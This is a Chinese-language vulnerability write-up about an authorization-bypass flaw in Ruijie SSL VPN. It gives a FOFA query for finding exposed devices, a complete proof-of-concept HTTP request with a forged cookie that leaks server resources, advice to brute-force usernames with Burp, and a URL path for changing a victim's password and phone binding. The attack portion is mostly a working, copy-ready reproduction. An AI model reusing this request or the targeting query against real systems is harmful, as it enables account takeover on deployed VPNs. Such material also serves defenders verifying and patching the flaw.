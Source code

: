 # 锐捷SSL VPN 越权访问漏洞

## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

## 漏洞影响

> [!NOTE]
>
> Ruijie SSL VPN

## FOFA

> [!NOTE]
>
> icon_hash="884334722" || title="Ruijie SSL VPN"

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi

![](http://wikioss.peiqi.tech/vuln/ruijie-9.png)

POC请求包如下

```
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

> [!NOTE]
>
> 在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

![](http://wikioss.peiqi.tech/vuln/ruijie-10.png)

用户名正确时会返回敏感信息

![](http://wikioss.peiqi.tech/vuln/ruijie-11.png)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](http://wikioss.peiqi.tech/vuln/ruijie-12.png)

点击个人设置跳转页面即可修改账号信息

![](http://wikioss.peiqi.tech/vuln/ruijie-13.png)

## 参考文章

https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973